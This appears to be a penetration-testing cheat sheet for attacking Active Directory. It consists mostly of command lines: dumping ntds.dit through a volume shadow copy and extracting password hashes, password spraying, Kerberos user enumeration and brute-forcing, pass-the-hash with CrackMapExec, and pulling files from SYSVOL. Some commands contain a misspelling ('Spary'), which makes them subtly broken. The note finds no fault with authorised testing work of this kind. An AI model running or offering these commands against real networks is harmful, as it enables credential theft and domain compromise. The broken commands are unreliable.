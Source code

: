# 🔧 Testing Active Directory

## Tools

{% embed url="https://github.com/MichaelGrafnetter/DSInternals" %}

### Load DSInternals using Powershell

```
Set-ExecutionPolicy Unrestricted
```

```
Install-Module -Name DSInternals
```

### Install Impacket in Linux

```
sudo apt install python3-impacket
```

### Install BloodHound in Linux

```
sudo apt install bloodhound
```

```
pip install bloodhound
```

### Install Kerbrute

{% embed url="https://github.com/ropnop/kerbrute" %}

### Install Crackmapexec

{% embed url="https://www.kali.org/tools/crackmapexec" %}

```
sudo apt install crackmapexec
```



***

## Extract the AD hashes

```
reg SAVE HKLM\SYSTEM c:\temp\sys

vssadmin create shadow /for=C:

copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit c:\temp\dit

ESENTUTL /p c:\temp\dit /!1024 /8 /o
```

```
$key=Get-BootKey -SystemHiveFilePath c:\temp\sys

Get-ADDBAccount -All -BootKey $key -DBPath c:\temp\dit
```



***

## Password spraying Active Directory

{% embed url="https://github.com/dafthack/DomainPasswordSpray" %}

```
Import-Module c:\tools\DomainPasswordSpary.ps1
```

```
Invoke-DomainPasswordSpary -Password kitty-kat
```

```
Invoke-DomainPasswordSpary -PasswordList c:\tools\adpass.txt
```



***

## Kerberos brute-forcing attacks

### Kerbrute

{% embed url="https://github.com/ropnop/kerbrute" %}

### Username Enumeration

```
./kerbrute userenum -d cybex.com --dc <domain IP> <username list>
```

### Password Attack

```
./kerbrute passwordspary -d cybex.com --dc <domain IP> <password-list> <password>
```



***

## CrackMapExec to access and enumerate AD

```
crackmapexec smb <ip/cidr>
```

### Pass The Hash Attack

```
crackmapexec smb <domain IP> -u "<username>" -H "<password hash>"
```

```
crackmapexec smb <domain IP> -u "username" -p <password.txt>
```



***

## Investigate the SYSVOL share

{% embed url="https://attack.mitre.org/techniques/T1552/006" %}

```
smbclient \\\\<Domain IP address>\\sysvol -U <username>
```

### Retrieve a File

```
smb> get <file name or file location>
```



***

## Take advantage of legacy data

### Jxplorer

* Open Jxplorer
* Enter username and password
* Select a user
* Select Table Editor Column at the right hand side
* Decode the Info value (base64 encoded)

### Decode Base64 value

```
echo "<base64 encoded text>" | base64 -d
```

